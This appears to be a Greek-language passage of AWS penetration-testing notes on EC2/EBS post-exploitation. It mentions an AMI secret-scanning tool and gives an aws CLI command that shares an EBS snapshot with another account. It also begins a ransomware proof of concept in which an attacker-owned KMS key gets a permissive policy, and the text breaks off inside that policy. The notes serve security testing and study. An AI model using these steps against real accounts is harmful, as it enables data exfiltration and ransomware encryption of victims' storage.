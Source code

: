 ### Αναζήτηση ευαίσθητων πληροφοριών σε δημόσιες και ιδιωτικές AMIs

* [https://github.com/saw-your-packet/CloudShovel](https://github.com/saw-your-packet/CloudShovel): Το CloudShovel είναι ένα εργαλείο σχεδιασμένο για **να αναζητά ευαίσθητες πληροφορίες εντός δημόσιων ή ιδιωτικών Amazon Machine Images (AMIs)**. Αυτοματοποιεί τη διαδικασία εκκίνησης στιγμιοτύπων από στοχευμένες AMIs, τοποθέτησης των τόμων τους και σάρωσης για πιθανά μυστικά ή ευαίσθητα δεδομένα.

### Κοινή χρήση EBS Snapshot

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

Μια απόδειξη της έννοιας παρόμοια με την επίδειξη Ransomware που παρουσιάστηκε στις σημειώσεις μετά την εκμετάλλευση S3. Το KMS θα έπρεπε να μετονομαστεί σε RMS για Υπηρεσία Διαχείρισης Ransomware με το πόσο εύκολο είναι να χρησιμοποιηθεί για την κρυπτογράφηση διαφόρων υπηρεσιών AWS χρησιμοποιώντας το.

Πρώτα από έναν λογαριασμό AWS 'επιτιθέμενου', δημιουργήστε ένα κλειδί διαχείρισης πελάτη στο KMS. Για αυτό το παράδειγμα, θα αφήσουμε το AWS να διαχειρίζεται τα δεδομένα του κλειδιού για μένα, αλλά σε ένα ρεαλιστικό σενάριο, ένας κακόβουλος παράγοντας θα διατηρούσε τα δεδομένα του κλειδιού εκτός του ελέγχου του AWS. Αλλάξτε την πολιτική του κλειδιού για να επιτρέψετε σε οποιονδήποτε Principal λογαριασμού AWS να χρησιμοποιήσει το κλειδί. Για αυτή την πολιτική κλειδιού, το όνομα του λογαριασμού ήταν 'AttackSim' και ο κανόνας πολιτικής που επιτρέπει σε όλους την πρόσβαση ονομάζεται 'Outside Encryption'
```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
},
"Action": "kms:*",
"Resource": "*"
},
{
"Sid": "Allow access for Key Administrators",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Create*",
"kms:Describe*",
"kms:Enable*",
"kms:List*",
"kms:Put*",
"kms:Update*",
"kms:Revoke*",
"kms:Disable*",
"kms:Get*",
"kms:Delete*",
"kms:TagResource",
"kms:UntagResource",
"kms:ScheduleKeyDeletion",
```
